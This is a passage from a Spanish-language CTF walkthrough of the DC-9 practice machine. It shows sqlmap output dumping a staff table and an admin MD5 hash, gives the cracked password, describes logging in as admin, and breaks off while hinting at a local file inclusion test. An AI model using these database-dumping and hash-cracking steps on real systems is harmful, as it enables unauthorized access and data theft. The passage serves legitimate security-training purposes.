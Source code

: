 ```console
| 6    | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 11   | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 16   | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 4    | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 9    | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 14   | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 2    | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 7    | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 12   | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 17   | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
+------+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+

[12:10:35] [INFO] table 'Staff.StaffDetails' dumped to CSV file '/home/pablog/.sqlmap/output/10.0.0.151/dump/Staff/StaffDetails.csv'
[12:10:35] [INFO] fetching columns for table 'Users' in database 'Staff'
[12:10:36] [INFO] fetching entries for table 'Users' in database 'Staff'
[12:10:36] [INFO] recognized possible password hashes in column '`Password`'

do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: Staff
Table: Users
[1 entry]
+--------+----------+----------------------------------+
| UserID | Username | Password                         |
+--------+----------+----------------------------------+
| 1      | admin    | 856f5de590ef37314e7c3bdf6f8a66dc |
+--------+----------+----------------------------------+
```
---

Con un poquito de ataque de diccionario, `SQLMAP` logra extraer el hash del usuario admin en MD5. Buscando ese hash en cualquier sitio de cracks de hashes se encuentra que el password del usuario admin es `transorbital1` así que volviendo a la página me puedo loguear exitosamente.

![img]({{ '/assets/images/DC9/dc9_03.png' | relative_url }}){: .center-image }*(Admin logueado)*

---

Ok, no hay mucho para hacer a pesar de estar logueado aunque es llamativo el error que se muestra abajo sobre que no existe un archivo, esto es una pista hacia un LFI. Yendo con la misma prueba de siempre:

---